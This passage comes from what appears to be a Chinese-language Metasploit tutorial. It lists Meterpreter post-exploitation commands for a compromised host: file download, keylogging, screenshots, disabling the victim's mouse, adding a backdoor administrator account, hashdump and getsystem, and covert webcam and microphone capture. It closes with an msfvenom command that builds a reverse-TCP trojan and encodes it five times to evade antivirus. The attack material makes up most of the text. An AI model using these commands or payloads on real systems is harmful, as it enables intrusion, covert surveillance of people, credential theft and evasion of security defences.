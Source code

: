 ```
download C:\\1.exe （下载目标主机C盘下的1.exe文件到本地的lwd目录）

uictl           -->控制一些用户界面组件（获取键盘、鼠标控制权）
使用uictl -h 查看帮助（打开/关闭，键盘/鼠标）
列： uictl disable mouse  (禁用目标主机的鼠标)

keyscan_start   -->开始捕获击键（开始键盘记录）
keyscan_dump    -->转储按键缓冲（下载键盘记录）
keyscan_stop    -->停止捕获击键（停止键盘记录）
PS：键盘记录注意点，先开始，后下载，再结束，否则会出错

screenshot      -->抓取交互式桌面截图（当前操作界面截图一张）

net user wh 123 /add  (给目标主机创建一个用户名为wh,  密码为123的用户，  此时wh用户为普通用户)
net localgroup administrators wh /add (将wh用户提权到管理员)

reboot (重启目标电脑)
shudown (关闭目标电脑)

record_mic       -->X秒从默认的麦克风record_mic音频记录（音频录制）

webcam_chat      -->开始视频聊天（视频，对方会有弹窗）
webcam_list      -->单摄像头（查看摄像头列表）
webcam_snap      -->采取快照从指定的摄像头（摄像头拍摄一张照片）
webcam_stream    -->播放视频流从指定的摄像头（开启摄像头监控）

getsystem        -->获取高权限
hashdump         -->获取当前用户hash

```


# 3. 木马免杀：

这里使用msfvenom生成木马同时对payload编码来实现木马的简单免杀：

-e 选项用来指定要使用的编码器。

-i 选项用来指定对payload编码的次数。

首先看看有哪些编码器可以使用：
```
msfvenom -l encoders
```
<img width="500px" src="https://gitee.com/naiswang/images/raw/master/20191202164329.png"/>

我们挑选一个免杀效果比较好的x86/shikata_ga_nai进行编码。

```
msfvenom -p linux/x86/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -f elf -o /root/payload_encoder.elf
```

从图中我们可以看到完成了对木马的5次编码，这样木马基本上就可以躲避部分杀毒软件的查杀，其实还可以对木马程序进行多次编码，虽然可以提高木马的免杀几率，不过可能会导致木马程序不可用。当然要想免杀效果更好就需要使用Metasploit pro版本或者给木马加壳、修改木马的特征码等等，不过要想躲过全部杀毒软件的查杀则会有些难度，通常会针对某个杀毒软件进行免杀。